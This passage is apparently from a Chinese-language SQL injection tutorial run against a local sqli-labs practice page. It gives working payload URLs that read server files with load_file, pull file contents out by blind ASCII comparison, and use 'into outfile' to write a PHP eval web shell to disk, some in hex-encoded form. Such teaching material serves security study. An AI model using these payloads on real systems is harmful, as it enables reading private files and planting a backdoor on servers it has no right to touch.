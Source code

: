 

### 三：文件读写

**· ** 当有显示列的时候，文件读可以利用 union 注入。

**· ** 当没有显示列的时候，只能利用盲注进行数据读取。

示例：读取e盘下3.txt文件

union注入读取文件(load_file)

```
//union注入读取 e:/3.txt 文件
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,2,load_file("e:/3.txt")#
​
//也可以把 e:/3.txt 转换成16进制 0x653a2f332e747874
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,2,load_file(0x653a2f332e747874)#
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0167b98b57a882ab38.png)

[![](https://p1.ssl.qhimg.com/t0168b38a45b499ef33.png)](https://p1.ssl.qhimg.com/t0168b38a45b499ef33.png)

盲注读取文件

```
//盲注读取的话就是利用hex函数，将读取的字符串转换成16进制，再利用ascii函数，转换成ascii码，再利用二分法一个一个的判断字符，很复杂，一般结合工具完成
http://127.0.0.1/sqli/Less-1/?id=-1' and ascii(mid((select hex(load_file('e:/3.txt'))),18,1))&gt;49#' LIMIT 0,1
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)

我们可以利用写入文件的功能，在e盘创建4.php文件，然后写入一句话木马

union写入文件(into outfile)

```
//利用union注入写入一句话木马  into outfile 和 into dumpfile 都可以
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,2,'&lt;?php @eval($_POST[aaa]);?&gt;'  into outfile  'e:/4.php' #
​
// 可以将一句话木马转换成16进制的形式
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,2,0x3c3f70687020406576616c28245f504f53545b6161615d293b3f3e  into outfile  'e:/4.php' #
```



### 四：报错注入

**利用前提**: 页面上没有显示位，但是需要输出 SQL 语句执行错误信息。比如 mysql_error()

**优点**: 不需要显示位

